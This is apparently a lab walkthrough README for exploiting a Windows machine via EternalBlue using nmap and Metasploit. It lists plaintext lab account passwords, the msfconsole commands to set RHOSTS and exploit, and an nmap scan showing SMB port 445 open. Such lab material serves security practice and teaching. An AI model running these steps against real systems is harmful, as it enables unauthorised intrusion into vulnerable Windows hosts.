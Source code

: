 Password for 
user: 123
administrator: Password456!

1. Login to the Windows machine.
1. ```ipconfig``` in cmd to find IP address
1. Conduct nmap on the IP address
1. Start metasploit with ```msfconsole```
1. search eternal blue as microsoft-ds is exploitable and let mfsconsole do it's job.
1. ```
   use 0
   show options
   set RHOSTS (IP Adress)
   exploit
   ```

|PORT|      STATE SERVICE|      VERSION|
| :---: | :---: | :---:|
|135/tcp  | open | msrpc |       Microsoft Windows RPC
|139/tcp |  open | netbios-ssn | Microsoft Windows netbios-ssn
|445/tcp  | open  | microsoft-ds | Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|49152/tcp | open | msrpc     |   Microsoft Windows RPC
|49153/tcp | open | msrpc     |   Microsoft Windows RPC
|49154/tcp | open | msrpc      |  Microsoft Windows RPC
|49155/tcp | open | msrpc       | Microsoft Windows RPC
|49156/tcp | open  | msrpc        Microsoft Windows RPC
|49157/tcp | open  | msrpc        Microsoft Windows RPC

